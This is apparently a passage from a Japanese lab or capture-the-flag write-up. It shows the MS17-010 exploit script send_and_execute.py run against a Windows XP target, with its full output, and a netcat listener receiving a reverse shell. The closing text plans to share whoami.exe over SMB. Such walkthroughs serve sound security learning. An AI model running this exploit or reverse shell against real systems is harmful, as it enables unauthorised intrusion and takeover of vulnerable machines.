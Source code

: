 ```:実行
kali@kali:~/MS17-010$ python send_and_execute.py 10.10.10.4 exploit.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x822c06c8
SESSION: 0xe1173410
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe2357b10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe2357bb0
overwriting token UserAndGroups
Sending file HHZ9QK.exe...
Opening SVCManager on 10.10.10.4.....
Creating service PHfu.....
Starting service PHfu.....
The NETBIOS connection with the remote host timed out.
Removing service PHfu.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
kali@kali:~/MS17-010$ 
```


```:待ち受け
kali@kali:~$ nc -lvp 8888
listening on [any] 8888 ...
10.10.10.4: inverse host lookup failed: Unknown host
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.4] 1091
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.

C:\WINDOWS\system32>
```

これでシェルを取ることはできましたが、whoamiが入っていないため権限を確認することができません。
なのでkaliでsmbserverを立ててwhoami.exeを共有しましょう。
まずはkaliの中に入っているsmbserverスクリプトとwhoami.exeを探します。
*もしもこのサーバがwindows7以降ならPowershellなどがおそらくインストールされているためそちらを使います。今回はWindows XPなのでwhoami.exeを共有する方法としてsmbを選びました。
